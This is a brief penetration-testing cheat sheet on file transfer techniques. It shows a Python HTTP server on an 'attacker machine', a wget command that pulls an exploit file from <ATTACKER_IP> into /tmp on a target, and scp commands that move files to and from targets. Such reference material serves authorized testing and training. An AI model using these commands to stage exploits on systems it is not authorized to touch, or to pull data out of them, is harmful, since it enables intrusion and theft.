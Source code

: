 # File Transfer Techniques

## HTTP Server

```bash
# Host server on attacker machine
python3 -m http.server 9000

# Download on target
wget http://<ATTACKER_IP>:9000/exploit-name.c -P /tmp/
```

## SCP

```bash
# Upload file to target
scp test.txt <USERNAME>@<TARGET_IP>:/location2

# Download file from target
scp <USERNAME>@<TARGET_DOMAIN>:/files/test.txt location
```
